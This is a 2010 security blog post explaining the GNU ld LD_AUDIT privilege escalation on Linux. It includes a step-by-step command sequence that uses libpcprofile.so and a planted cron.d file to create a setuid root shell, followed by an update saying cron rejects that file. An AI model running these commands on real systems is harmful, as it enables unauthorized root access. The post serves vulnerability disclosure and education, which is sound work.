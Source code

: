 ```yaml
---
layout: post
title: GNU ld  dlopen privilege escalation
date: '2010-10-22T23:56:00.010+02:00'
author: Xavier Garcia
tags:
- escalation
- Linux
- ld_audit
modified_time: '2010-11-30T11:02:56.093+01:00'
blogger_id: tag:blogger.com,1999:blog-8534555958859253862.post-7894173933676300250
blogger_orig_url: http://www.shellguardians.com/2010/10/gnu-ld-dlopen-privilege-escalation.html
---
```

For second time this week, Tavis  Ormandy  has sent a 'bomb' to a [full disclosure list](http://marc.info/?l=full-disclosure&m=128776663124692&w=2) in form of Linux privilege escalation with GNU ld.  
  
In a nutshell, the problem is the following:  
LD_PRELOAD is:  

> A whitespace-separated list of additional, user-specified, ELF shared libraries to be loaded before all others. This can be used to selectively override functions in other shared libraries. For set-user-ID/set-group-ID ELF binaries, only libraries in the standard search directories that are also set- user-ID will be loaded.

But, this is not the case with LD_AUDIT. Basically, you can load any library when executing a suid program, that will be executed with root permissions! The attack consists in finding an arbitrary library that will write a file to disk, that will be owned by root in case of executing a suid program.  
  
  
The final trick is that the newly created process will inherit parent's umask. What does it mean? We can change the umask in our shell and then create a world writeable file with root rights!  
  
A regular user being able to write files with root permissions is really a bad thing...  It means that you can create an arbitrary shell script that will be executed by Cron with root rights.  Yes, an instant root shell in the system!  
  
The attack:  
```
$ umask 0  
#arbitrary suid program  
$ LD_AUDIT="libpcprofile.so" PCPROFILE_OUTPUT="/etc/cron.d/exploit" ping  
# This library writes a file to disk when the PCPROFILE_OUTPUT  
# environment variable is defined.  
# There is another example with the liblftp-tasks library and  
# the LFTP_HOME environment variable.  
$ printf "* * * * * root cp /bin/dash /tmp/exploit; chmod u+s /tmp/exploit\n" > \  
/etc/cron.d/exploit  
# Create an arbitrary but valid crontab(5) line in the file and wait for the execution  
# This attack creates a suid shell named /tmp/exploit.  
$ /tmp/exploit  
# whoami  
root
```
  
UPDATE:  Using crontab files is not an option because Cron does not accept files that are group or world writable. The attacker must look for other options.  
  
UPDATE: It is possible to upload an [arbitrary library](http://www.shellguardians.com/2010/11/escalation-with-library-upload-gnu-ld.html) that will be loaded with root privileges, dropping a root shell.
